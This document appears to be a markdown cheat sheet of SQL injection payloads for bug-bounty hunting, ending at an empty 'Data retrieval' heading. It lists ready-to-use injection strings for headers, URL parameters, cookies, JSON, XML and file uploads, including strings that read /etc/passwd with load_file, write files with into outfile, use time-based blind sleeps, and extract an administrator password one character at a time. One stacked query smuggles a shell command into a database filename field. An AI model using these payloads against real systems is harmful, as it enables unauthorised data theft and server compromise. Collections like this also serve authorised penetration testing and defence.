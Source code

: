 ## SQL injection with load file and into outfile
```
' and 1=2 union all select concat_ws(0x3a,version(),user(),database())--

' and 1=2 union all select load_file('/etc/passwd')--

' and 1=2 union all select 'blablabla_bug_bounty_program' into outfile '/tmp/blablabla'--

```
Source: https://infosecwriteups.com/sql-injection-with-load-file-and-into-outfile-c62f7d92c4e2
### Examples
```sql

AND 1=CONVERT(int, (SELECT @@version))

X-Forwarded-For: "' or sleep(30)='" >> For any type of HTTP headers ✔

X-Forwarded-For: 127.0.0.1' AND (SELECT * FROM (SELECT(SLEEP(5)))x) AND '1'='1 ✔

&topsort=flowers or sleep(3) >> Url Parameter

/etc/example?term=')+AND+(SELECT+1+FROM+(SELECT(SLEEP(2)))x)+AND+(1=' >> Url Parameter with (X-Requested-With: XMLHttpRequest) header.

&location=(select*from(select(sleep(3)))a) >> Cookie

&direction=desc,(select*from(select(sleep(3)))a)& >> Cookie

"accid":"25 and sleep(3)#" >> In json data

<storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId> >> In xml data with encoding

&log=0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z&pwd= >> Post data

&comment_id=291751-sleep(5)& >>

filename="poc.js' (select*from(select(sleep(3)))a) '.pdf" >> Uploading File

asd</script>') UNION SELECT 1,SLEEP(10),3,4,5-- - >> Via file upload vulnerability

xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm'--

xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a

'; IF (1=1) WAITFOR DELAY '0:0:10'--

-1337 union select "main.py" >> To fetch arbitrary file.

id=3;update photos set filename="*|| ls ./files > test.txt" where id =3;commit; >> To manipulate database filename.

' union select 1,2,3,4,5 from --table_name-- - >> Union based table name retrieving.
```
### Exceptional
```txt
-1047 OR CASE WHEN 6810=6810 THEN 6810 ELSE JSON(CHAR(98,79,78,79)) END
%' AND 7395=7395 AND 'gyZA%'='gyZA
%' AND (SELECT 9598 FROM (SELECT(SLEEP(5)))bJqR) AND 'FKXA%'='FKXA
%' UNION ALL SELECT 1,2,3,CONCAT(0x716b7a7a71,0x6a4a7143494e46596b6d4c4c6569725a475572687178746d55434b687861796371705952614c7857,0x7176786271),NULL-- -
```
### Data retrieval